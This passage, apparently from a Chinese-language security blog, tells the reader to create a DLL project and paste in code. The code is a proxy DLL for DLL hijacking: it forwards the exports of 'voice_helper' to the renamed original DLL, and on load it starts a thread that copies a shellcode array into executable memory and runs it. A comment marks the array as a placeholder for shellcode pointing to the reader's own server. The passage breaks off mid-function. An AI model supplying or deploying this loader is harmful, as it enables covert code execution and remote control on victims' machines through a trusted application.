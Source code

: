 [![](assets/1698894665-d4378fe5f43809eab99f2d5eaae08616.png)](https://storage.tttang.com/media/attachment/2022/01/16/ab7e2b65-c67e-406e-b740-10b09829a1f6.png)

然后创建 DLL 项目将代码复制进去如下：

```plain
#include "pch.h"
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#include <Windows.h>

#include <stdlib.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////




#pragma comment(linker, "/EXPORT:RegisterHookListener=voice_helperOrg.RegisterHookListener,@1")
#pragma comment(linker, "/EXPORT:RemoveAllListeners=voice_helperOrg.RemoveAllListeners,@2")
#pragma comment(linker, "/EXPORT:StartHelperService=voice_helperOrg.StartHelperService,@3")
#pragma comment(linker, "/EXPORT:StopHelperService=voice_helperOrg.StopHelperService,@4")
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
/* length: 894 bytes */
unsigned char shellcode[] = "\x39\x00\x51\x09\xbf\x6d 自己服务器的 shellcode..";


DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
    LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpBase, shellcode, sizeof(shellcode));
    JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
    jmp_shellcode();
    return 0;
}

////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////



////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
```
